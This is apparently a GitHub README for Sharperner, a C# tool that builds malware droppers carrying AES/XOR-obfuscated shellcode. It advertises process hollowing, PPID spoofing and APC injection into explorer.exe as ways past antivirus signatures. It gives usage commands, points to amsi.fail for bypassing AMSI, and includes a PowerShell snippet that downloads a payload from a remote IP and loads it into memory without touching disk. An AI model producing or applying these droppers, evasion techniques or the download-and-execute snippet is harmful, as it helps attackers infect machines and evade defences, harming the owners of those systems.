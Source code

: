 # Sharperner
**Sharperner** is a tool written in CSharp that generate .NET dropper with AES and XOR obfuscated shellcode. Generated executable can possibly bypass signature check but I cant be sure it can bypass heuristic scanning. 

## Features
### Native C++ binary
* Process Hollowing
* PPID Spoofing
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code

### DLL 
* Spawn as mobsync.exe
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code

### .NET binary
* AES + XOR encrypted shellcode
* APC Process Injection (explorer.exe)
* Random function names
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code

Sharperner now supports /convert functionality which will convert native binary/PE and manually mapped into .NET executable by using @SharpSploit library. This might be useful for reflective loading (execute-assembly)

## Usage
```
/file       B64,hex,raw 
/type       cs,cpp,dll
/out        Output file Location. (Optional)
/save       Keep pre compiled code. (Optional)

/convert    File input
            (Embed native executable to .NET Assembly using Manual Mapping)

Example:
Sharperner.exe /file:file.txt /type:cs
Sharperner.exe /file:file.txt /out:payload.exe /save
Sharperner.exe /convert:file.exe
```

## Caveat
* Install .NET 3.5 if Dlllauncher project throws errors. ([Download](https://www.microsoft.com/en-us/download/details.aspx?id=21))
* Make sure to have `msbuild.exe` in place to compile projects
* Native C++ payload might not work with long shellcode. Stageless most likely won't work.

## Suggestion
To avoid touching the disk, Generated .NET executable can be loaded reflectively with powershell. AMSI is the enemy now, [amsi.fail](https://amsi.fail) ftw!
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/payload.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[TotallyNotMal.Program]::Main()
```

## References
* https://github.com/cobbr/SharpSploit
* https://github.com/fireeye/DueDLLigence
* https://github.com/cribdragg3r/Alaris
